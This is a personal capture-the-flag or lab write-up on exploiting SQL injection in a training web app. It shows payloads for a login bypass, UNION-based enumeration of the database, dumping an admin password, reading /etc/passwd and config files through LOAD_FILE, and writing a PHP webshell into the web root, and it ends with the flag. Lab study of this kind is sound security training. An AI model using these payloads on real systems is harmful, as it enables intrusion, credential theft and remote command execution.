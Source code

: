   

### Hint

### Try to read files you know to find a location you can write to.

—>

💡

we will need to make webshell

  

  

first when i opened the link i found :

login page :

![[Untitled 5.png|Untitled 5.png]]

found this on the source :

`<!-- partial:index.partial.html -->`

we need to login :

trials :

```
'' OR '1'='1' -- - 
```

as i thought the infected part is the username not the password .

Logged in :

![[Untitled 1 2.png|Untitled 1 2.png]]

  

  

i found search bar :

lets see:

okay i found that it gives also an error msg when i input error .

first we will knew how many columns do we have :

```
 'UNION select 1,2,3,4,5  -- -           
```

okay using that command i could knew that it is:

5 columns , and first one is not seen

![[Untitled 2 3.png|Untitled 2 3.png]]

  

Lets see our user name :

```
'UNION select 1,USER(),3,4,5  -- -   
```

root@localhost

  

as it is the root we will assume that it can write and read

  

  

Lets see the INFORMATION_SCHEMA to get the webroot place:

lets see all the databases that are presented :

```
'UNION select 1,SCHEMA_NAME,3,4,5 from INFORMATION_SCHEMA.schemata-- -   
```

![[Untitled 3 2.png|Untitled 3 2.png]]

  

WHAT WE WILL CARE ABOUT are :

backup and ilfreight

but only backup matters

  

we will go to see the tables that backup database contains

  

```
'UNION select 1,table_NAME,table_schema,4,5 from information_schema.tables-- -   
```

![[Untitled 4 2.png|Untitled 4 2.png]]

so there is a table called :

admin_bk

we need to knew how many columns on admin_bk

```
'UNION select 1,column_NAME,table_schema,4,5 from information_schema.columns WHERE table_name='admin_bk'-- -   
```

![[Untitled 5 2.png|Untitled 5 2.png]]

now lets see what do they contain :) :

```
'UNION select 1,username, password,4,5 from backup.admin_bk-- -   
```

we got :

![[Untitled 6.png]]

username = admin

password = Inl@n3_fre1gh7_adm!n

  

  

we will need to see our privilages:

```
cn' UNION SELECT 1, grantee, privilege_type, 4,5 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

via :

root@localhost —> we can do anything

lets try the found account :

![[Untitled 7.png]]

now lets try reading files we knew :

LOAD_FILE("/etc/passwd")

```
'UNION select 1,LOAD_FILE("/etc/passwd"), 3,4,5 -- -   
```

okay we now are reading file /etc/passwd:  

![[Untitled 8.png]]

  

lets try anther file:

/var/www/html/

```
'UNION select 1,LOAD_FILE("/var/www/html/dashboard/dashboard.php"), 3,4,5 -- -   
```

![[Untitled 9.png]]

  

  

in the source code i found :

`include "../config.php";`

so there is a place called config.php lets try to load_file it

  

```
'UNION select 1,LOAD_FILE("/var/www/html/config.php"), 3,4,5 -- -   
```

![[Untitled 10.png]]

i found those things :

```
$config = array(
'DB_HOST' => '127.0.0.1',
'DB_USERNAME' => 'root',
'DB_PASSWORD' => 'password',
'DB_DATABASE' => 'ilfreight'
);
```

we will use mysql on them :

mysql -u root -ppassword -h 127.0.0.1

it is not connecting i think the problem is with the ip

  

okay after revising i found that i already have access to

/var/www/html/ so lets create our webshell here :

first we will just test it :

```
'UNION select '',"<?php system($_REQUEST[0]);?>", '','','' into outfile'/var/www/html/dashboard/shell.php' -- -   
```

Can't create/write to file '/var/www/html/hello.txt' (Errcode: 13 "Permission denied")

  

  

```
' union select 1,variable_name,variable_value,4,5 from information_schema.global_variables where variable_name='secure_file_priv' -- -
```

  

it is a blank which means we can do it anywhere:

  

  

  

read files we knew :

```
'UNION select 1,LOAD_FILE("/var/www/html/index.php"), 3,4,5 -- -   
```

![[Untitled 11.png]]

  

  

  

i found that what where stopping me is that i should try to write in /var/www/html/dashboard/shell.php

and i modified the upper command on here :)

after doing this it worked.

okay now we will go to use the webshell and search for the flag

  

  

finally

![[Untitled 12.png]]

the flag is 528d6d9cedc2c7aab146ef226e918396